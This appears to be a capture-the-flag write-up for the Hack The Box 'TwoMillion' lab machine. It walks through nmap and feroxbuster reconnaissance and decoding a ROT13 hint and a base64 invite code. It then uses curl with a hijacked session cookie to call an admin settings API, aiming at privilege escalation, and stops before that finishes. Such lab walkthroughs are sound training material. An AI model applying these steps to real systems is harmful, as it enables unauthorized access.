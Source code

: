
#### NMAP Scan

**Scanning with version discovery, aggressive scan, no ping and default NSE scans**
```
sudo nmap 10.10.11.221 -sV -A -Pn -sC
```

![[Pasted image 20230901015823.png]]

- Here we see two services available: 22/TCP SSH and 80/TCP HTTP
- On port 80 we see "Did not follow redirect to http://2million.htb/"
- We're going to do two things now.
	1) To ensure we can get to this URL, we're going to make an entry in our /etc/hosts file
	2) Use feroxbuster to enumerate all directories in 2million.htb
``` bash
echo "10.10.11.221 2million.htb" | tee -a /etc/hosts
```

- Directory Brute Forcing
- We're going to enumerate all the directories we can access, hence the 200 HTTP Status Code
```bash
feroxbuster -u http://2million.htb -s 200
```
![[Pasted image 20230903010518.png]]

- Three pages to point out are *register*, *login*, *invite*
- Nothing interesting from the first two pages, unto the invite page
- Inspect the web page and select Debugger. Prettify the htb-frontend.min.js and inviteapi.min.js so you can make the code more readable
- In the inviteapi.min.js file, the return statement contains some interesting data
- There appears to be a few functions being called, verifyInviteCode and makeInviteCode
![[Pasted image 20230903011858.png]]
- How do I know these are functions? Well for one, the naming style. It's similar to camel case. Those two are also the only items that describe an action.
- Ok, now we need to find where else these functions are referenced or better yet, find the file that contains their code blocks.
- Copy and paste one of them in search bar in the left pane
![[Pasted image 20230903012104.png]]
- You will find the the function blocks!!
- Here we see that both are making POST requests to verify and generate the invite code
- What tool can we use to send a POST request and query the server? Curl!!
```
curl -sX POST http://2million.htb/api/v1/invite/verify
```
	-s mutes curl, does not show progress or error messages
	X is the request method
	POST this is the request method we're using, since we're sending data to the server

![[Pasted image 20230903013528.png]]
	NOTE: You can learn more about making curl post requests at [reqbin.com](https://reqbin.com/req/c-g5d14cew/curl-post-example)

First request doesn't yield anything, unto to the second

```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate
```
![[Pasted image 20230903013732.png]]
- What does this message tell us?
	- We have an encrypted message
	- Encryption type is ROT13, given by "encytpe:ROT13"
	- Hint - "Data is encrypted...We should probably check the encryption type in order to decrypt it.."

- Google ROT13, find the website and go to it. ROT13.com
![[Pasted image 20230903014321.png]]

- We get another message "In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate"
- Make another POST request to the specified API address
```bash
curl -sX POST http://2million.htb/api/v1/invite/generate
```

![[Pasted image 20230903014504.png]]

- Here we see what appears to be a base64 encoded string, now decode it with base64 -d
```bash
echo "OE5QVTMtMFRCUDEtTDZIN0QtOTBXQTA=" | base64 -d
8NPU3-0TBP1-L6H7D-90WA0  
```

- We get the invite code! Now let's see if it works, go back to the invite page and submit the invite code. You will then be able to register
- I used user for the username and password. 
- Use @hackthebox.htb for the email domain just to be safe
![[Pasted image 20230903014846.png]]

- And we're in!
![[Pasted image 20230903015018.png]]

- Go the the "Access" page
- Fire up burpsuite
- Download the opevpn ovpn file by selecting "Connection Pack" and observe burpsuite
![[Pasted image 20230903080640.png]]

- Burp intercepts the request and shows us an API call to generate the vpn connection for the user
- ![[Pasted image 20230903081202.png]]
- Curl POST request
``` bash
curl -sX POST http://2million.htb/home/access/api/v1/user/vpn/generate
```

![[Pasted image 20230903081828.png]]

- Here we see the page has been moved
- Using the cookie found when intercepting the request with burp, make another curl request up to the /user level
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1/user
```

- 301 Moved Permanently
![[Pasted image 20230903084711.png]]

- Go down one level to /v1...same reponse. Go down one more, to /api
- Success!!
![[Pasted image 20230903085517.png]]

- Return one level up
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1 | jq
```

![[Pasted image 20230903091017.png]]
- The API call to /api/v1 shows us the instructions for generating an invite code for a regular user, registering a new user and determining if the user is admin
- Make a curl request to /api/v1/admin/settings/update, but note the method change. PUT will be used instead of the POST like we've been using
```bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update | jq
```

- We get a 200 OK message, the page is accessible to us! However, look at the message we received at the end. The "Invalid content type", it's expecting a JSON type
- Run the command again but specify the JSON as the application/json type
![[Pasted image 20230903221646.png]]
- After running take a look at the message again, "Missing parameter: email"
- Input your email with the curl command
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb"}' | jq
```
![[Pasted image 20230903224712.png]]
- It's asking if we're the admin, so run another curl with this item in the request
```

```